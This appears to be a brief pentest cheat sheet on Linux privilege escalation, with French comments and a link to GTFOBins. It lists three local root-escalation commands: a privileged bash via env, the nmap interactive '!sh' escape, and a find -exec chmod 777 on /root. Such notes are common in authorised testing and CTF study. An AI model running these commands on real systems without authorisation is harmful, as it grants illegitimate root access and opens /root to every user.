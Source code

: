 # Linux PrivEsc
<br>

Url : https://gtfobins.github.io/
```
- /usr/bin/env bash -p

- nmap --interactive
  nmap> !sh (Cf. https://gtfobins.github.io/gtfobins/nmap/)

- find . -exec chmod 777 /root \;
  (si find a des droits root (Cf. ilnux.sh))
```
